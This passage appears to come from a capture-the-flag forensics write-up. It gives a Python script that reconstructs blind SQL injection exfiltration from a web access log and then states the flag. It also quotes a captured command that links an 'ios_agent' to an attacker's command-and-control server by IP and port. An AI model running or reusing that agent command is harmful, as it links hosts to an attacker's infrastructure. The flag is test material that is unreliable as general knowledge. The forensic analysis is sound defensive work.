 ```python
from urllib import parse
num=0
line=0
tmp1=1
tmp2=2
str1=''
 
with open("access.log",'r') as f:
    string=f.readline()
    while(string !=''):
 
 
        if("sqli.flag" in string):
            
            string=parse.unquote(string)
            num=string.find("sqli.flag")#字符
            num+=19
            line=string.find("sqli.flag")
            line+=11
            if(string[line+1] ==","):
                tmp1=int(string[line])
            elif(string[line+1] !=","):
                num+=1
                tmp1=int(string[line:line+2])
 
      
            if(tmp1 ==tmp2): #发现目标字符，是上一行的
                tmp2+=1
                print(str1,end="")
 
        str1=string[num] #保留上一行的字符
        string=f.readline()
```

flag: flag{deddcd67-bcfd-487e-b940-1217e668c7db}

## ios

**10.1黑客所控制的C&C服务器IP是_____.**

根据10.2找到的，在wget处追踪http流，在最下面有转发操作`./ios_agent -c 3.128.156.159:8081 -s hack4sec`
